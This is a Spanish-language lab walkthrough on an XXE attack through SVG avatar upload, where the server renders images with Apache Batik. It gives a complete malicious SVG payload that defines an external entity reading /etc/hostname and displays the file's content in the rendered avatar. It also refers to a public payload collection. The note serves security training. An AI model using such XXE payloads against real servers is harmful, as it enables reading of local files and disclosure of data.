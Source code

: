 En esta clase seguimos explorando vectores de ataque XXE, esta vez aprovechando la funcionalidad de subida de imágenes del laboratorio. El servidor permite a los usuarios subir avatares en formato SVG, los cuales son procesados con la librería Apache Batik. Esta librería interpreta entidades definidas dentro del SVG, lo que abre la puerta a un ataque XXE clásico.

Creamos un archivo SVG en el que definimos una entidad que apunta al archivo del sistema que contiene el nombre del host. Luego, insertamos esa entidad como contenido textual del SVG. Al subir la imagen como avatar en un comentario, el servidor procesa el archivo y renderiza el contenido de esa entidad, mostrando así el nombre del host en el propio avatar. Esta información es la que se necesita para resolver el laboratorio.

Solucion
primero podemos usar la biblia
![Pasted image 20250730205158.png](imagenes/Pasted image 20250730205158.png)
https://github.com/swisskyrepo/PayloadsAllTheThings

entonces aqui lo que se hace es por medio de un archivo que dentro contendra un payload nos mostrar la data 
payload (<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>)
Nuestra supuesta imagen se llamara image.svg y contendra el payload
![Pasted image 20250730210003.png](imagenes/Pasted image 20250730210003.png)
y lo cargaremos en la web
![Pasted image 20250730210143.png](imagenes/Pasted image 20250730210143.png)
aqui podemos ver nuestro comentario
![Pasted image 20250730210223.png](imagenes/Pasted image 20250730210223.png)
aqui poco se ve la imagen pero lo abrimos en una nueva pestaña
![Pasted image 20250730210259.png](imagenes/Pasted image 20250730210259.png)
y obtenemos dentro de la imagen el hostname
